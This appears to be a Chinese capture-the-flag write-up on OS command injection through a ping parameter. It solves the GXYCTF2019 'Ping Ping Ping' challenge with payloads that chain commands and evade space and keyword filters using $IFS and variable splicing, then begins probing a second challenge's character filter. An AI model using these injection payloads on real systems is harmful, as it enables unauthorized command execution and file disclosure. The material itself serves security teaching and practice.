 # BUUCTF-WEB全解



## [GXYCTF2019]Ping Ping Ping

![image-20250225164229815](../../_media/image-20250225164229815.png)

payload：

```
ip=127.0.0.1;ls
```

发现

```
flag.php
index.php
```

payload：

```
ip=127.0.0.1;cat flag.php
```

发现

```
/?ip= fxck your space!
```



payload：

```
ip=127.0.0.1;tac index.*
```



发现

```
/?ip= 1fxck your symbol!
```



```
/?ip= 1fxck your symbol!
/?ip= fxck your space!
/?ip= fxck your flag!
```

综上可以暂时发现，过滤了空格、通配符，flag单词，[]括号等等



尝试：传参顺利，打印出ag

```
/?ip=127.0.0.1;b=ag;echo$IFS$b;
```



所以上述全部都采取传参的形式进行绕过即可

最终的payload如下：

- $IFS，空格绕过
- tac，绕过命令
- $b,\$c,绕过关键词

```
ip=127.0.0.1;b=ag;c=php;d=fl;tac$IFS$d$b.$c
```

![image-20250225165946153](../../_media/image-20250225165946153.png)





## [第二章 web进阶]死亡ping命令

首先就是对输入的长度做出了限制，不过无所谓前端都是可以绕过的

还是一样先进行测试，

```
;
||
*
$
&

都不行
```





```
ls
/
flag
+
?
cat
tac
base64
echo
<>
都是可以的
```



